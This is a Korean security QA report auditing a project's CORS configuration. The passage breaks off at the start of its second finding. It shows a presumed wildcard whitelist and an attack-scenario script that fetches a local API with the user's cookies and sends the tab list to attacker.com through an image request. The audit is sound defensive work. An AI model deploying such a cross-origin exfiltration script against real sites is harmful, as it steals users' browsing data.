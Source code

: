 # Security 모듈 심층 QA 리포트
**작성일**: 2025-10-27  
**검토 대상**: `src/shared/security/` (cors, csp, authorization, rateLimiting)  
**관점**: 비관적 (보안 중심)

---

## 1️⃣ CORS (Cross-Origin Resource Sharing)

### 1.1 문제: 와일드카드 정책 오남용 🔴

**현재** (추정):
```typescript
export const CORS_WHITELIST = [
  '*',  // ← 극도로 위험!
  'http://localhost:*',
  'https://*.example.com'
];

export function isCorsAllowed(origin: string): boolean {
  return CORS_WHITELIST.some(pattern => {
    if (pattern === '*') return true;  // 모든 오리진 허용!
    // ...
  });
}
```

**문제**:
- 모든 웹사이트에서 요청 가능
- CSRF 공격 용이
- 민감한 데이터 노출

**공격 시나리오**:
```html
<!-- 악의적 웹사이트 -->
<script>
  fetch('http://zen-browser.local:9090/api/tabs', {
    method: 'GET',
    credentials: 'include'  // 쿠키 포함
  })
  .then(r => r.json())
  .then(data => {
    // 탭 목록 탈취
    new Image().src = `https://attacker.com/steal?data=${JSON.stringify(data)}`;
  });
</script>
```

---

### 1.2 문제: 오리진 검증 우회 ⚠️
